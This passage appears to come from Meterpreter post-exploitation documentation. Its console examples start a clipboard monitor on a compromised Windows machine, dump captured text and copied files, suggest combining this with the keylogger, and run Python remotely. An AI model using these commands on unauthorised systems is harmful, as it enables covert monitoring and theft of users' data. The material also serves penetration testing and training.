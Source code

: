 ```
meterpreter > clipboard_monitor_start
[+] Clipboard monitor started
meterpreter >
```

While it is monitoring, you can ask Meterpreter to dump whatever's been captured.

```
meterpreter > clipboard_monitor_dump
Text captured at 2016-03-05 19:18:18.0466
=========================================
this is fun.
=========================================

Files captured at 2016-03-05 19:20:07.0525
==========================================
Remote Path : C:\Users\user\Desktop\cat_pic.png
File size   : 37627 bytes
downloading : C:\Users\user\Desktop\cat_pic.png -> ./cat_pic.png
download    : C:\Users\user\Desktop\cat_pic.png -> ./cat_pic.png

==========================================

[+] Clipboard monitor dumped
meterpreter >
```

The ```clipboard_monitor_stop``` command will also dump the captured data, and then exit.

Combined with Meterpreter's keylogger, you have a very effective setup to capture the user's
inputs.


**Using the Python Extension**

The Python extension allows you to use the remote machine's Python interpreter.

To load the extension, at the Meterpreter prompt, do:

```
meterpreter > use python
Loading extension python...success.
```

The most basic example of using the interpreter is the ```python_execute``` command:

```
meterpreter > python_execute "x = 'hello world'; print x"
[+] Content written to stdout:
hello world

meterpreter >
```

Another way to execute Python code is from a local file by using the ```python_import``` command.

To do this, first prepare for a Python script. This example should create a message.txt on the
remote machine's desktop:
